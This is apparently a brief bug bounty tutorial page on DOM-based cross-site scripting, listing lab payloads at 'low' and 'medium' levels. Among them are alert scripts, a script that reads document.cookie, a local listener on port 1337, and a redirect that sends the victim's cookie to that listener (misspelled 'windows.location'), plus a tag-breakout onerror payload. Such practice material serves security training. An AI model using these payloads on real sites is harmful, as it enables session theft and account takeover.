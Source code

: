# bug-bounty-tutorial
bug bounty tutorial

## 16.xss dom

### low
```
<script>alert('hacked')</script>
<script>alert(document.cookie)</script>

python -m http.server 1337
webup
<script>windows.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
```

### medium
```
</select><image src/onerror=alert(1)>
```
